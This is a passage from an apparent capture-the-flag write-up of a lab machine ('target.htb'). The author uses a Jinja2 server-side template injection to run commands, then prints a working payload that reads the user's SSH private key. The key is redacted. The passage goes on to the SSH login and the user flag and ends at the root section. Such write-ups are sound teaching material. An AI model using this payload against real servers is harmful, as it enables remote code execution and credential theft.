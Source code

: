 Which returned this:

```html
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
{
</p>
```

I was able to run commands on the server. I tried using the SSTI to get a reverse shell. This part was frustrating. The code would sometimes fail to execute. Other times it would miss some characters. I spent an over hour trying to send the code for a reverse shell. Appending it a few characters at the time to a file. 

Eventually, I decided to try something simpler and looked for a private key in the user's home folder. Luckily, I had an error that showed me that the application was located in an app folder inside the user's home. So I knew I just had to go up one folder.

```
{% raw %}
 {{ config.__class__.__init__.__globals__['os'].popen('cat ../.ssh/id_rsa').read() }}
{% endraw %}
```

It worked!

```bash
-----BEGIN RSA PRIVATE KEY-----
REDACTED
-----END RSA PRIVATE KEY-----
```

I saved the key locally, change its permissions, and used it to connect to the server.

```bash
$ ssh -i id_rsa svc_acc@target.htb

svc_acc@late:~$ ls -la
total 40
drwxr-xr-x 7 svc_acc svc_acc 4096 Apr  7 13:51 .
drwxr-xr-x 3 root    root    4096 Jan  5 10:44 ..
drwxrwxr-x 7 svc_acc svc_acc 4096 Apr  4 13:28 app
lrwxrwxrwx 1 svc_acc svc_acc    9 Jan 16 18:45 .bash_history -> /dev/null
-rw-r--r-- 1 svc_acc svc_acc 3771 Apr  4  2018 .bashrc
drwx------ 3 svc_acc svc_acc 4096 Apr  7 13:51 .cache
drwx------ 3 svc_acc svc_acc 4096 Jan  5 10:45 .gnupg
drwxrwxr-x 5 svc_acc svc_acc 4096 Jan  5 12:13 .local
-rw-r--r-- 1 svc_acc svc_acc  807 Apr  4  2018 .profile
drwx------ 2 svc_acc svc_acc 4096 Apr  7 11:08 .ssh
-rw-r----- 1 svc_acc svc_acc   33 May 29 13:03 user.txt

svc_acc@late:~$ cat user.txt
REDACTED
```

## Getting root
